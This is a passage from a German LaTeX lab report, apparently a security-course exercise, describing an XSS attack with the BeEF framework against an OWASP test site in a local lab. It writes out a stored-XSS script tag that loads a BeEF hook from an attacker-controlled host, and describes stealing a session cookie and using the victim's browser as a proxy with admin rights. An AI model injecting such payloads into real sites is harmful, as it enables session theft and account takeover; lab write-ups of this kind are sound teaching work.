\section{Beef}
In dieser Aufgabe wurde eine XSS-Attcke mit dem Beef-Frameork durchgeführt.

\subsection{Vorbereitung}
Wir haben die VMs gestartet und unter der 192.168.1.36 die Website von OWASP aufgerufen. Da gibt es einen Blog, bei dem Einträge hinzugefügt werden können. Diese Einträge möchten wir für die XSS Attacke ausnutzen und Schadcode in Form der Hoock einschleusen. Der Hook ist unter http://127.0.0.1:3000/hook.js erreichbar. Entrsprechend wurde ein Blog Eintrag mit dem Inhalt <script src="http://192.168.1.1:3000/hook.js"></script> erstellt. Da dieses script nicht als Text, sondern als tatsächliches Script in die Seite eingebunden wird, ist diser Angriff möglich. Nach kurzer Zeit wurde bei Beef angezeigt, dass ein Zombie existiert. Die Vorbereitung war also erfolgreich.

\subsection{Der erste Angriff}
Im ersten Angriff wurde in Beef ein Angriff auf das Session Coockie ausgeführt. Dazu wurde unter Command der entsprechende Angriff gewählt und ausgeführt. Nach kurzer Zeit wurde das Session-Coockie ausgegeben.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe8/Cookie_diesesmalwirklich.png}
	\caption{Coockie}
	\label{fig:coockie_8}
\end{figure}

\subsection{Der zweite Angriff}
Im zweiten Angriff wurde das Opfer als Proxy verwendet und in seinem Namen eine Anfrage gesendet. Mit Beef ist es möglich eine Anfrage zu bauen und diese im Namen des Opfers auszuführen. Damit wurde die Seite im Namen des Opfers aufgerufen, in der Antwort war dann zu sehen, dass unser Opfer als Admin angemeldet ist. Somit könnten dieser Theoretisch als Admin für Angriffe gebraucht werden.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe8/Prox_seite_Admin.png}
	\caption{Als Admin angemeldet}
	\label{fig:proxy_8}
\end{figure}